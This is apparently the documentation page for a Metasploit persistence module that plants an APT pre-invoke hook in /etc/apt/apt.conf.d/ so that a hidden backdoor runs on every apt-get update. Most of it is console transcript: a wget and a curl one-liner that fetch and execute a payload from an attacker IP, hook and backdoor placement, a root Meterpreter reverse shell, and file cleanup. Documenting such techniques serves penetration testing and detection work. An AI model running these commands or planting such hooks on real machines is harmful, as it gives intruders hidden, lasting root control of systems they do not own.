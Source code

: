 ## Vulnerable Application

This module will run a payload when the apt package manager is used.
This module creates a pre-invoke hook for APT in `apt.conf.d`.
The hook name syntax is numeric followed by text.

Verified on Ubuntu 22.04

## Verification Steps

1. Exploit a box that uses APT
2. Obtain root persmissions, or enough permissions to edit the `apt.conf.d` folder
3. `use exploit/linux/persistence/apt_package_manager`
4. `set SESSION <id>`
5. `set PAYLOAD cmd/unix/reverse_python` configure the payload as needed
6. `exploit`

When the system runs `apt-get update` the payload will launch.

## Options

### BACKDOOR_NAME

Name of backdoor executable. Defaults to a random name

### HOOKNAME

Name of pre-invoke hook to be installed in `/etc/apt/apt.conf.d/`. Pre-invoke hook name syntax is numeric followed by text.

## Scenarios

### Tested on Ubuntu 22.04

Initial access vector via web delivery

```
$ ./msfconsole -q
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO Z73D1DUW --no-check-certificate http://111.111.1.111:8181/l; chmod +x Z73D1DUW; ./Z73D1DUW& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] 222.222.2.22     web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.22
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.22:51076) at 2025-02-04 17:40:52 -0500
sessions -l

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         meterpreter x64/linux  root @ 222.222.2.22  111.111.1.111:4545 -> 222.222.2.22:51076 (222.222.2.22)
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/apt_package_manager 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/apt_package_manager) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/apt_package_manager) > check
[*] The target appears to be vulnerable. /etc/apt/apt.conf.d/ and /tmp/ are writable, also found apt-get.
[msf](Jobs:1 Agents:1) exploit(linux/persistence/apt_package_manager) > exploit
[*] Command to run on remote host: curl -so ./xTOLdQoOTv http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./xTOLdQoOTv;./xTOLdQoOTv&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/apt_package_manager) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /etc/apt/apt.conf.d/ and /tmp/ are writable, also found apt-get.
[*] Attempting to write hook:
[*] Wrote /etc/apt/apt.conf.d/76skoGqswo
[*] Backdoor uploaded /tmp/erNOJV96u
[+] Backdoor will run on next APT update
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc

[msf](Jobs:2 Agents:1) exploit(linux/persistence/apt_package_manager) > jobs

Jobs
====

  Id  Name                                            Payload                                     Payload opts
  --  ----                                            -------                                     ------------
  0   Exploit: multi/script/web_delivery              linux/x64/meterpreter/reverse_tcp           tcp://111.111.1.111:4545
  1   Exploit: linux/persistence/apt_package_manager  cmd/linux/http/x64/meterpreter/reverse_tcp  tcp://111.111.1.111:4444

[msf](Jobs:2 Agents:1) exploit(linux/persistence/apt_package_manager) > 
```

Run `sudo apt-get update` on the target.

```
[*] Client 222.222.2.22 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 222.222.2.22 (curl/7.81.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.22
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.22:49804) at 2025-02-04 17:43:06 -0500

[msf](Jobs:2 Agents:2) exploit(linux/persistence/apt_package_manager) > sessions -i 2
[*] Starting interaction with 2...

(Meterpreter 2)(/tmp) > sysinfo
Computer     : 222.222.2.22
OS           : Ubuntu 22.04 (Linux 5.15.0-48-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 2)(/tmp) > 
```

#### Cleanup

```
(Meterpreter 2)(/tmp) > resource /root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc
[*] Processing /root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc for ERB directives.
resource (/root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc)> rm /etc/apt/apt.conf.d/76skoGqswo
resource (/root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc)> rm /tmp/erNOJV96u
```